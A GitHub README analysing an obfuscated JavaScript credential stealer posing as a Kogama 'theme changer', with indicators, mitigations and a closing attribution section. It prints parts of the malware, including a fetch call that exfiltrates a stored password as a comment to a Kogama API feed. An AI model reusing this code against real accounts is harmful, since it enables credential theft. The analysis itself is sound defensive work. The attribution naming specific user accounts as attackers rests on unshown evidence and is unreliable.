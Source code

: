 # Malware Sample Analysis: Obfuscated JavaScript Payload

## Overview
This repository contains an analysis of a malicious JavaScript sample found on Pastebin, which masquerades as a benign "theme changer" utility. The script is heavily obfuscated and exhibits clear malicious behavior.


⚠️ **Warning**: Do not execute this script outside of a controlled sandbox environment.

 💚 Credits to ***Amine*** for helping me realise that no more current leads exist.

## Sample Information
- **Source**: [Pastebin Link](https://pastebin.com/raw/UqK3rjrA)
- **Claimed Function**: Theme changer utility
- **Actual Behavior**: Malicious payload (analysis ongoing)

## Indicators of Compromise
The script exhibits several red flags:

1. **Suspicious Attribution**
   - Unknown author ("Lavar") with no verifiable identity
   - No legitimate project homepage or documentation

2. **Obfuscation Techniques**
   - Heavy use of encoding and string manipulation
   - Unnecessary complexity for stated purpose
   - Obfuscated network calls

3. **Anomalous Code Patterns**
   ```javascript
   fetch('https://www.kogama.com/api/feed/31872096/comment/[...]') // A request to post a comment
   ({'comment':localStorage[_0x5acfe3(0x206)](...)})  // Accessing localStorage (saved data contents)
   const _0x1a7136=['addEventListener','getElementById','application/json','https://www.kogama.com/auth/logout'] // Getting an element by ID and logging us out
   ```

# Technical Analysis

### Initial Deobfuscation
The script employs heavy obfuscation with several immediate red flags:

```javascript
function _0x22fc() {
  const _0x1a7136 = [
    'addEventListener', 'log', 'stringify', 'location', 'status', 
    '173846mcQEUN', '9NpMVeb', 'Success:', '113830LYAXum', 'keyCode',
    'setItem', 'value', 'root-page-mobile', 'password', '71868QrEQBX',
    'getItem', 'error', '2716758eSaPId', 'catch', 'poop',
    'querySelector', 'Error:', '126544zlfMyY', 'lol', '506569BqwGkp',
    '.MuiButtonBase-root.MuiButton-root.MuiButton-text.MuiButton-textDefault...',
    '99qjFQGn', '2MXeZit', 'then', 'getElementById', 'application/json',
    'https://www.kogama.com/auth/logout', '25vivdkf', 'json',
    "Button not found!", '768536FEIJoG', 'POST', 'click',
    '.MuiButtonBase-root.MuiButton-root.MuiButton-contained...',
    "background-image: linear-gradient(135deg, rgb(0 137 255), rgb(0 112 255))"
  ];
  _0x22fc = function() { return _0x1a7136; };
  return _0x22fc();
}
```

###  Key Malicious Behaviors

1. **Anomalous Code Patterns**
   - Sets a localStorage variable named 'poop' to store passwords
   - Calls logout function (https://www.kogama.com/auth/logout) to force re-authentication

2. **Data Exfiltration**
   - Transmits stolen credentials as a "comment" to a fixed Kogama.com feed ID
   - You can view the current state of comments from this object [here](https://www.kogama.com/api/feed/31872096/comment/)
   - If you want to go a few steps ahead, you can compare your findings to what I've saved @ [May 31, 2025 20:24]([https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/endpoint/comments.json](https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/Data/Comments.json))
```javascript
fetch('https://www.kogama.com/api/feed/31872096/comment/', {
  'method': _0x5acfe3(0x1f3),  // Resolves to 'POST'
  'headers': {
    'Content-Type': _0x5acfe3(0x1ed)  // Resolves to 'application/json'
  },
  'body': JSON[_0x5acfe3(0x1f9)]({  // Resolves to 'stringify'
    'comment': localStorage[_0x5acfe3(0x206)](_0x5acfe3(0x1e2))  // Gets 'password'
  })
```

As of [May 31, 2025 20:24]([https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/endpoint/comments.json](https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/Data/Comments.json)) the only accounts that have posted any comments under this specific Object are ~~GameCodeMaster~~ and a dummy account @ [Boris Jacob Anderson](https://www.kogama.com/profile/670351929/). Both of those have already changed passwords which could mean two twings. 
~~Either the person behind this script is GameCodeMaster simply testing their own sample, or that account has been stolen because of their naive traits.
Why such theory? GameCodeMaster is an owner of 'Tester' Badge, which these days - isn't rare, but it just may be an indicator.~~

*What of the post/feed that stores the comments? - I'm still trying to locate it, trying to finalise the investigation.
No hits in unpublished projects, deleted maps or anywhere else.
Due to this issue - figuring out who's behind the script is currently impossible.

![image](https://github.com/user-attachments/assets/50b0b399-baad-4b8b-b0e1-7dbb30eeb70f)

> [**This is what happens when you execute the script**](https://youtu.be/cgtRLFCTV40 )


## Conclusion & Recommendations

### Summary of Findings
1. **Malicious Intent Confirmed**  
   The script is definitively a credential stealer masquerading as a theme utility, with:
   - Password harvesting via forced re-authentication
   - Data exfiltration to a public comment feed
   - Deliberate obfuscation to evade detection

2. **Attack Infrastructure**  
   - Utilizes Kogama's legitimate API as C2 channel
   - Targets: `https://www.kogama.com/api/feed/31872096/comment/`
   - Persistence: Stored credentials in `localStorage` under key `'poop'`

3. **Attribution Challenges**  
   - Only two affected accounts detected ~~GameCodeMaster~~ and [Boris Jacob Anderson](https://www.kogama.com/profile/670351929/))
   - Possible scenarios:
     * Attacker testing their own malware
     * Compromised naive accounts
     * False flag operation

### Mitigation Strategies
| Action | Implementation |
|--------|----------------|
| Credential Rotation | All potentially exposed users should change passwords |
| API Monitoring | Kogama should investigate abnormal comment patterns on feed #31872096 |
| Client Protection | Block execution of scripts from untrusted paste sites |

### Future Research Directions
- **Feed Origin Analysis**: Continue hunting for the parent feed object
- **Pattern Correlation**: Compare with other Kogama-targeting malware
- **Attacker TTPs**: Document tactics for threat intelligence sharing

### Community Call-to-Action
Help expand this analysis by:
1. Reporting additional affected accounts via Issues
2. Contributing YARA rules for detection
3. Sharing related samples in the wild

---

# FINAL INVESTIGATION RESULTS

After thorough analysis, it has been determined that the initial hypothesis regarding GameCodeMaster being the threat actor was incorrect. In reality, GameCodeMaster was among three individuals who were coerced through blackmail into developing malicious scripts under the direction of an entity known as 'Inversion'.

Two additional parties involved in this operation, who engaged in harassment and email spamming targeting the victims, have been identified as 'zinxi' and 'g0d_b3rn13'.

> ![Evidence 1](https://github.com/user-attachments/assets/9f92350e-091d-4038-ae28-6f00e670ddf5)
> ![Evidence 2](https://github.com/user-attachments/assets/4083e999-6c48-4bee-91dc-d2c6eaa8c4bc)

## IDENTIFIED THREAT ACTOR
**Primary Actor**: [__ChiefPuddle/Inversion__](https://www.kogama.com/profile/670201468/)  

**Known Alternate Accounts**:  
- [__Asood Moohammed243__](https://www.kogama.com/profile/670339973/)

## ADDITIONAL FINDINGS
The primary threat actor has been actively distributing password-stealer malware through comments on the profile of '[G0D_B3RN13](https://www.kogama.com/profile/669867874/)'.

> ![Malware Distribution Evidence](https://github.com/user-attachments/assets/d009bf9d-c8cf-4da1-8c85-5e248c954596)


**Due to privacy reasons, I'm unable to provide more screenshots.**
